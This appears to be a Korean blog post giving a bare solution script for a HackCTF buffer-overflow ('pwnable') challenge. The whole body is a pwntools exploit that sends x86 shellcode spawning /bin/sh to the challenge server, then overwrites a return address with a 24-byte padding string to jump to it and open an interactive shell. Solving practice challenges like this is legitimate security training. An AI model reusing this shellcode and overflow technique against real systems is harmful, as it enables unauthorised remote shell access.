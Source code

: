 ```yaml
---
title: "[HackCtf] 내 버퍼가 흘러넘친다!!!"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```

{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3003)
p.recv(1024)
p.send("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")
p.recv(1024)
p.sendline("A"*24+p32(0x0804a060))
p.interactive()
{% endhighlight %}
